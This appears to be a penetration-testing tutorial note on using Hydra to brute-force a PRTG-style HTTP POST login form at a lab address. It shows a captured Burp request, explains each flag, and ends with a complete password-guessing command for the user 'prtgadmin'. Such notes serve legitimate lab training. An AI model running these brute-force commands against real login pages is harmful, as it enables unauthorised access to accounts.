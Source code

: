 # Hydra

### http brute

The request in burp suite looks like:

```
POST /public/checklogin.htm HTTP/1.1
Host: 10.10.10.152
Content-Length: 39
Cache-Control: max-age=0
Origin: http://10.10.10.152
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: _ga=GA1.4.1366182311.1585918308; _gid=GA1.4.333900560.1586085370
Connection: close

loginurl=&username=admin&password=admin
```

`-l prtgadmin`  
use login prtgadmin  

`-P /usr/share/john/password.lst`  
use passwords from /usr/share/john/password.lst  
`http-post-form`  
for use POST requests  

`"/public/checklogin.htm:loginurl=&username=^USER^&password=^PASS^:Your login has failed"`  
/public/checklogin.htm - relate to POST /public/checklogin.htm HTTP/1.1  
:loginurl=&username=^USER^&password=^PASS^ - fill username with username. In our case prtgadmin. Fill password with passwords from password list we specified  
:Your login has failed - ignore responce if there such sting in it. If there are no such string in response - consider, that password was found  

```bash
hydra -v -l prtgadmin -P /usr/share/john/password.lst 10.10.10.152 http-post-form "/public/checklogin.htm:loginurl=&username=^USER^&password=^PASS^:Your login has failed" -t 5 -I -
```
